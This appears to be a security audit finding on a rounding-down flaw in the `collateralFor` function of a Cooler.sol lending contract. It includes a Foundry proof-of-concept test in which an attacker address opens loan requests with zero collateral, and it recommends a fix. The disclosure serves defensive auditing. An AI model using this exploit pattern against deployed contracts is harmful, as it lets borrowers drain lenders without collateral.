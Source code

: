 Allarious

high

# `collateralFor` does not calculate the collateral correctly.

## Summary
`collateralFor` does not calculate the collateral amount correctly, effecting the `Cooler.sol` flow to go unexpectedly.

## Vulnerability Detail
`collateralFor` is the function that takes in the `amount` requested for loan, and the `loanToCollateral` ratio with 18 decimal points. The given formula:
```solidity
    function collateralFor(uint256 amount, uint256 loanToCollateral) public pure returns (uint256) {
        return amount * decimals / loanToCollateral;
    }
```
Rounds the collateral needed down while it should round it up. There are several lines of codes effected which can cause the lender to not the the collateral back. All of the bugs caused below can get exaggerated in two cases:

* If the price difference between the two tokens is high, this can boost the value of `loanToCollateral` value higher (e.g. Collateral token is 1e10 times Debt token)
* If the decimal points of the two tokens is different than 1e18 (e.g. USDC)

Borrowers can submit requests with a non-zero `amount` requested and a non-zero `loanToCollateral` while not providing any collateralization to the system. if the amount requested is less than `loanToCollateral/1e18, no collateral is needed which should not be allowed. if the amount if bigger than the said amount, it will be rounded down to the closest multiplication of it.

if the interest rate calculated in the clear function is less than `loanToCollateral/1e18' there is a chance that the borrower does not need to add any collateral to roll the loan. This happens if `collateralFor(amount) == collateralFor(amount + interest) due to rounding down.

## Impact
lines of code impacted:
* Cooler.sol, 85
* Cooler.sol, 102
* Cooler.sol, 139
* Cooler.sol, 172
* Cooler.sol, 236-238

## Code Snippet
```solidity
contract CollateralForTests is Test {
    ERC20 public token1;
    ERC20 public token2;

    CoolerFactory public factory;
    Cooler public cooler;

    address public victim;
    address public attacker;

    uint256 ATTACKER_INITIAL_BALANCE = 10000 ether;

    function setUp() public {
        victim = vm.addr(1);
        attacker = vm.addr(2);

        token1 = new ERC20("token1", "TK1"); // Collateral
        token2 = new ERC20("token2", "TK2"); // Debt

        token1.mint(attacker, ATTACKER_INITIAL_BALANCE);
        token2.mint(attacker, ATTACKER_INITIAL_BALANCE);

        factory = new CoolerFactory();
        cooler = Cooler(factory.generate(token1, token2));
    }

    function testCollateralFor() public {
        //  collateralFor(Amount, loanToCollateral)
        // As long as loanToCollateral/1e18 is bigger than amount
        // the output of the funciton would be equal to zero
        assertEq(cooler.collateralFor(1, 1.1e18), 0);
    }

    function testRequestWithZeroCollateral() public {
        // Since collateralFor can act buggy the the loanToCollateral/1e18 ratio
        // is higher than amout requested, it is possible for someone to create
        // a request with a non-zero loanToCollateral and non-zero amount requested
        // and zero collateral invested

        // Lets say we have two tokens named smallToken and bigToken. And we know that one smallToken trades 1e11 for each bigToken
        // We set the loanToCollateral 1e28 which means we put a single wETH (1 wei) for a 1e10 smallTokens loan, 10 times the actuall price of the token
        // Both smallToken and bigToken have decimal points of 1e18
        uint256 loanToCollateral = 1e28;
        // token1 -> bigToken
        // token2 -> smallToken
        vm.startPrank(attacker);        
        cooler.request(1e10 - 1, 1e17, loanToCollateral, 10 days);
        assertEq(token1.balanceOf(attacker), ATTACKER_INITIAL_BALANCE); // Attacker has the full balacne even after a request

        token1.approve(address(cooler), 1); // bigToken approve for a single ether
        
        cooler.request(1e10, 1e17, loanToCollateral, 10 days);

        vm.expectRevert();
        cooler.request(1e10, 1e17, loanToCollateral, 10 days); // cannot move any more 1e10 smallToken since we do not have more allowance of bigToken

        cooler.request(1e10 - 1, 1e17, loanToCollateral, 10 days); // can still move 1e10 - 1 smalltoken without collateralizing smallToken

        assertEq(token1.balanceOf(attacker), ATTACKER_INITIAL_BALANCE - 1); // Only the second request needed a collateral
        vm.stopPrank();
    }
}
```
## Tool used

Manual Review

## Recommendation
The function can mitigate these bugs by rounding up, also there is room for some extra sanity checks to see if enough collateral is available in the pool to guarantee the funds.
It is possible for the lender to check the pair by running the `collateralFor` function to see if there is enough collateral to invest, but the contract should put in some safety measures as well.